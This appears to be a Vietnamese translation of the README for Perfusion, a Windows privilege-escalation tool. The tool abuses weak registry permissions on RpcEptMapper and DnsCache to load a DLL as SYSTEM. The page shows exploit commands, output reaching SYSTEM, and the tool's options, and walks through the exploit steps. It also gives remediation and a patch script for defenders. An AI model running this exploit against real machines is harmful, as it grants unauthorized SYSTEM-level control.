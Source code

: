 ```yaml
---
title: Perfusion Demo
date: 12/11/2021
layout: single
header:
  teaser: https://anomali.cdn.rackfoundry.net/images/made/images/uploads/blog/ogThe-Power-of-an-Exploit_1200_603.jpg
---
```


# Perfusion
Tác giả: itm4n

Mã Nguồn: [itm4n/Perfusion](https://github.com/itm4n/Perfusion) 

> Trong __Windows 7__, __Windows Server 2008R2__, __Windows 8__, và __Windows Server 2012__, khóa đăng ký của dịch vụ `RpcEptMapper` và` DnsCache` (chỉ dành cho 7 / 2008R2) được định cấu hình với quyền yếu. Bất kỳ người dùng cục bộ nào cũng có thể tạo khóa con `Performance` và sau đó tận dụng ___Windows Performance Counters___ để tải một DLL tùy ý trong ngữ cảnh của dịch vụ WMI là` NT AUTHORITY \ SYSTEM` (do đó có tên là công cụ).

>  Công cụ này nhằm giúp các nhà tư vấn bảo mật trong quá trình kiểm tra thâm nhập. Phần mềm này được cung cấp nguyên trạng và tác giả có thể sẽ không cung cấp bất kỳ hỗ trợ nào. Mặc dù vậy, tôi đã thử nghiệm nó kỹ lưỡng trên ba máy ảo khác nhau nên không có vấn đề gì đáng kể.

Một bài phân tích chi tiết về nó: [windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  <img src="https://raw.githubusercontent.com/itm4n/Perfusion/master/demo.gif">
</p>

## Nguồn thông tin: 2021-04-21 Cập nhật

> Theo [0patch](https://twitter.com/0patch/status/1384495698373120002), lỗ hổng này đã được sửa một phần với Bản cập nhật Windows tháng 4 năm 2021 (ESU). Điều này có nghĩa là các máy chạy phiên bản cập nhật của Windows 8 / Server 2012 sẽ không thể khai thác được nữa. Tuy nhiên, Windows 7 / Server 2008 R2 vẫn dễ bị tấn công. Bạn chỉ cần sử dụng khóa đăng ký `Dnscache` hơn là `RpcEptMapper`. Tôi đã cập nhật PoC để bạn có thể chỉ định thủ công bằng tùy chọn `-k`.

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Đây là những gì bạn sẽ thấy khi khai thác không thành công

```powershell
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Build instructions

Giải pháp này bao gồm hai dự án cần được biên dịch theo một thứ tự cụ thể. Mọi thứ đều được định cấu hình trước, vì vậy bạn chỉ cần làm theo các hướng dẫn đơn giản sau

1. Mở Giải pháp với Visual Studio 2019
2. Select `Release / x64`
3. `Build > Build Solution`

## Usage

Bạn có thể kiểm tra thông báo trợ giúp bằng cách sử dụng tùy chọn `-h`.

```powershell
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.2
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -k <KEY>  Key - Either 'RpcEptMapper' or 'Dnscache' (default: 'RpcEptMapper')
  -h        Help - That's me :)
```

## Remediation / Patch

Các phiên bản Windows sau dễ bị tấn công:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DnsCache |
| Windows Server 2008R2 | RpcEptMapper, DnsCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

> Theo những gì tôi được biết, lỗ hổng này sẽ không được Microsoft sửa chữa vì một số lý do. Giải pháp tốt nhất vẫn là nâng cấp lên Windows 10 / Server 2019 nhưng nếu đó không phải là lựa chọn ngắn hạn, bạn vẫn có thể tự vá sự cố này bằng cách xóa quyền `CreateSubKey` cho cả `NT AUTHORITY\Authenticated Users` và `BUILTIN\Users` trên các khóa đăng ký sau:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`

> Tác giả đã tạo bản vá cho lỗ hổng bảo mật này dưới dạng tập lệnh PowerShell: [RegistryPatch.ps1] (RegistryPatch.ps1). Tập lệnh này loại bỏ `CreateSubKey` ngay trên hai khóa đăng ký nêu trên cho các danh tính sau:` NT AUTHORITY \ INTERACTIVE`, `BUILTIN \ Users` và / hoặc` BUILTIN \ Authenticated Users`

- __Kiểm tra xem máy có dễ bị tổn thương không:__ (Windows Server 2012 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Verbose
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
True
```

- __Áp dụng các bản vá:__ (Windows Server 2008 R2 here)

```powershell
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Patch -Verbose 
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: The new ACL was applied
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\INTERACTIVE" has "QueryValues, CreateSubKey, EnumerateSubKeys, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "CreateSubKey, ReadKey" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: The new ACL was applied
True
```

## How does this exploit work?

Dưới đây là các bước khai thác được thực hiện trong công cụ này:

1. Tiến trình được tạo ở chế độ nền ở trạng thái treo (sử dụng dòng lệnh được chỉ định).
2. DLL trọng tải nhúng được ghi vào thư mục `Temp` của người dùng hiện tại.
3. Khóa `Performance` được tạo trong` HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper` và được điền các giá trị thích hợp, bao gồm cả đường dẫn đầy đủ của DLL đã được tạo ở bước 2.
4. Lớp WMI `Win32_Perf` được tạo và gọi để kích hoạt bộ sưu tập _Windows Performance Counters_.
5. DLL được tải bởi dịch vụ WMI dưới dạng `NT AUTHORITY\SYSTEM` hoặc` NT AUTHORITY\LOCAL SERVICE`.
6. Nếu DLL được tải bởi `NT AUTHORITY\SYSTEM`, Mã thông báo của nó sẽ được sao chép và được áp dụng cho Quy trình do người dùng tạo ban đầu ở bước 1.
7. Mọi thứ được dọn dẹp và Chủ đề chính của Quy trình bị treo được tiếp tục.
